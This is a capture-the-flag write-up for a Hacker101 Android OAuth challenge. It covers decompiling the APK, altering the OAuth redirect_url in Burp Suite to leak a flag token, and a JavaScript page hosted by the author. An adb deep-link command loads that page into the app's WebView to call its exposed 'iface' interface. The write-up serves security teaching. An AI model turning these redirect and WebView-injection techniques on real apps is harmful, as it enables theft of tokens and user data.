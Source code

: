#ctf #burpsuite #webviews #adb #js-interface 
![[oauth1.png]]
**Difficulty:** Moderate
**Skills:** Android
**Flags:** 2

---

## Flag 1/2
The first thing that we need to do is download the **.APK** file and decompile with **apktool** 
```bash
apktool d oauth.apk
```

And for recon, I’ll run **MobSF** and **jadx-gui**
The **target SDK** is **28**, then I will use my **Android 9.0** with _Genymotion_.
Install the **.APK** with

```bash
adb install oauth.apk
```
![[oauth2.png]]

When we click on the button, this piece of code is executed:
_NOTE: URL is my private instance._

```java
public void onClick(View view) {
    if (view.getId() != R.id.button) {
        return;
    }
    String str = null;
    try {
        str = "https://URL.ctf.hacker101.com/oauth?redirect_url=" + URLEncoder.encode(this.authRedirectUri, StandardCharsets.UTF_8.toString()) + "login&response_type=token&scope=all";
    } catch (UnsupportedEncodingException e) {
        e.printStackTrace();
    }
    Intent intent = new Intent("android.intent.action.VIEW");
    intent.setData(Uri.parse(str));
    startActivity(intent);
}
```

In **burpsuite**, we can capture this **request**:
```bash
GET /oauth?redirect_url=oauth://final/login&response_type=token&scope=all HTTP/2
Host: URL.ctf.hacker101.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 9; Pixel Build/PI; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/74.0.3729.186 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
X-Requested-With: org.chromium.webview_shell
```

The **response** is:
```bash
HTTP/2 200 OK
Date: Wed, 03 Apr 2024 09:14:47 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 101
Server: openresty/1.25.3.1

<a href="oauth://final/login?token=3e9c275b75929032141f0d0775ca53e8">Authorize Mobile Application</a>
```

_For every request, we get a new token_.
And click on the **Authorize Mobile Application**
Then, we are redirect to the App.
![[oauth3.png]]

Looking at the **Browser.java** source code, in this piece:
```java
public void onCreate(Bundle bundle) {
    super.onCreate(bundle);
    setContentView(R.layout.activity_browser);
    String str = "https://URL.ctf.hacker101.com/authed";
    try {
        Uri data = getIntent().getData();
        if (data != null && data.getQueryParameter("uri") != null) {
            str = data.getQueryParameter("uri");
        }
    } catch (Exception unused) {
    }
    WebView webView = (WebView) findViewById(R.id.webview);
    webView.setWebViewClient(new SSLTolerentWebViewClient(webView));
    webView.getSettings().setJavaScriptEnabled(true);
    webView.addJavascriptInterface(new WebAppInterface(getApplicationContext()), "iface");
    webView.loadUrl(str);
}
```

I noticed that there are an endpoint (**/authed**).
Then, I tried change the request of above
```bash
GET /oauth?redirect_url=oauth://final/login&response_type=token&scope=all HTTP/2
Host: URL.ctf.hacker101.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 9; Pixel Build/PI; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/74.0.3729.186 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
X-Requested-With: org.chromium.webview_shell
```

To:
```bash
GET /oauth?redirect_url=authed HTTP/2
Host: URL.ctf.hacker101.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 9; Pixel Build/PI; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/74.0.3729.186 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
X-Requested-With: org.chromium.webview_shell
```

And we get the flag in the response:
```bash
HTTP/2 200 OK
Date: Wed, 03 Apr 2024 09:18:41 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 132
Server: openresty/1.25.3.1

<a href="authed?token=^FLAG^6a635d3784aeca7***********************f67a72a3b2$FLAG$">Authorize Mobile Application</a>
```
This is because when we click on **Authorize Mobile Application**, behind scene the “_token flag_” is generated, in the activity without content.

## Flag 2/2
Looking the source code, I noticed that **WebAppInterface.java** have **getFlagPath()**
Where an **url** is crafted with _some randoms numbers_.
And at _the end_, we can see that **finalize** in **.html**
And looking in the **Browser.java** we can see:
```java
try {
        Uri data = getIntent().getData();
        if (data != null && data.getQueryParameter("uri") != null) {
            str = data.getQueryParameter("uri");
        }
    } catch (Exception unused) {
    }
    WebView webView = (WebView) findViewById(R.id.webview);
    webView.setWebViewClient(new SSLTolerentWebViewClient(webView));
    webView.getSettings().setJavaScriptEnabled(true);
    webView.addJavascriptInterface(new WebAppInterface(getApplicationContext()), "iface");
    webView.loadUrl(str);
}
```

Then, we need call the param “**uri**” with **JavaScript** code hosted by our own, calling the **WebApp** know as **iface**.
This code can clarify this:
```HTML
<html>
  <head>
  </head>
  <body>
    <h1>Test</h1>
    <p id="msg">Test</p>
    <script type="text/javascript">
      var msg = document.getElementById("msg");
      msg.innerHTML = iface.getFlagPath();
    </script>
  </body>
</html>
```

So, with a simple Python server we can just:
```bash
python3 -m http.server 8081
```

Then with **adb** we can call the **URL** with:
```bash
oauth://final/?uri=<ourHostedHTMLfile>
```

This is the command:
```bash
adb shell am start -a android.intent.action.VIEW -d "oauth://final/?uri=http://192.168.1.4:8081/expl.html" com.hacker101.oauth
```


Letme explain the command ^^

**adb shell am start**
This command is used to start an activity on the Android device.

**-a android.intent.action.VIEW**
Specifies the action to be performed, in this case, opening a view.

**-d “oauth://final/?uri=http://192.168.1.4:8081/expl.html”**
This indicates the URI to which the action will be directed. In this case, it looks like you are trying to open a link pointing to “[http://192.168.1.4:8081/expl.html](http://192.168.1.4:8081/expl.html)” with a scheme of “oauth://final/”.

**com.hacker101.oauth**
This is the name of the application package to which this intent will be sent.

So, _executing this command_, we’ll launch the app and a new **.html** file will appear.
![[oauth4.png]]

Copy, paste and **get the flag**.

I hope you found it useful (: